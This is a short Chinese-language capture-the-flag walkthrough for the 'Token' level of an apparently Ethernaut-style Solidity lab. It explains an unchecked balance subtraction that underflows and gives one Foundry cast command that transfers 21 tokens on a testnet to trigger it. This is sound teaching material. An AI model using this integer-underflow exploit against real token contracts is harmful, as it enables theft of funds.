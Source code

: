 ### 第5关：Token

balances[msg.sender] -= _value;
这里没有做安全限制，我们的初始余额是20，如果用它减去 21，则会发生数据下溢，结果为 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff

先点击 Get new instance, F12 查看本关的合约地址 0xAAAAAAAAAAAAAAAAAAAA ，然后使用 Foundry Cast 调用 transfer(address, uint256),随便向另外一个地址转账 21个代币。即可让自己的代币余额发生溢出。得到一个天文数字：

 ```shell
cast send 0xAAAAAAAAAAAAAAAAAAAA "transfer(address, uint256)" 0xBBBBBBBBBBBBBBBBBBB 21 --rpc-url=https://sepolia-rollup.arbitrum.io/rpc --private-key=XXXXXXX
```

 点击 Submit Instance, 过关。
